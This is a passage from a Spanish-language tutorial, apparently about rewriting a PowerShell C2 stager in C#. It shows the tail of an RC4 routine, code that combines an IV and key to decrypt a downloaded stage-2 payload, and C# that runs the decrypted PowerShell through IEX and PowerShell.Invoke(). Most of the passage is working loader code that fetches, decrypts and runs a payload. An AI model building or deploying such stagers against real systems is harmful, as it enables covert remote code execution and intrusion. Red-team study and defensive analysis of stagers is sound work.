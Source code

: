 ```
			a %= 256;
			j += box[a];
			j %= 256;
			tmp = box[a];
			box[a] = box[j];
			box[j] = tmp;
			k = box[((box[a] + box[j]) % 256)];
			cipher[i] = (byte)(data[i] ^ k);
		}
		return cipher;
	}

	public static byte[] Decrypt(byte[] pwd, byte[] data)
	{
		return Encrypt(pwd, data);
	}
}
```

La última parte es responsable de unir todo junto. Podemos dividir el Join en 2 piezas, la 1ª es la parte de descifrado RC4 que utiliza el script de minimización de $R, los datos como argumento y la combinación de IV + K como el valor de descifrado. Puede ejecutar **& $R $data ($IV + $K)** solo para que pueda ver el RC4 en acción, y luego unir todo para finalmente hacer la ejecución Invoke-Execution (IEX).

```
//PowerShell Code
-Join[Char[]](& $R $data ($IV+$K))|IEX
 
// C# Code
// Combine the IV + Key (New random key each time)
byte[] IVK = new byte[iv.Length + K.Length];
iv.CopyTo(IVK, 0);
K.CopyTo(IVK, iv.Length);
 
// Decrypt the Message
byte[] decrypted = RC4.Decrypt(IVK, data_noIV);
 
// Convert the stage2 decrypted message from bytes to ASCII
string stage2 = System.Text.Encoding.ASCII.GetString(decrypted);
```

# Ejecución de C#.

Para ejecutar código en C# podemos usar la clase **PowerShell** o las clases **RunSpace** y **Pipeline**, esto es porque el payload que descargamos de la etapa 2 está en PowerShell. Utilizaremos la clase PowerShell porque, por alguna razón, las clases RunSpace y Pipeline no me funcionaron. En PowerShell, lo ejecutamos usando Invoke-Execution o IEX.

```
// Create a PowerShell Object to execute the command 
PowerShell PowerShellInstance = PowerShell.Create();
 
// Add the Script Stage 2 to the Powershell Object
PowerShellInstance.AddScript(stage2);
 
// Execute the Script!
PowerShellInstance.Invoke();
```
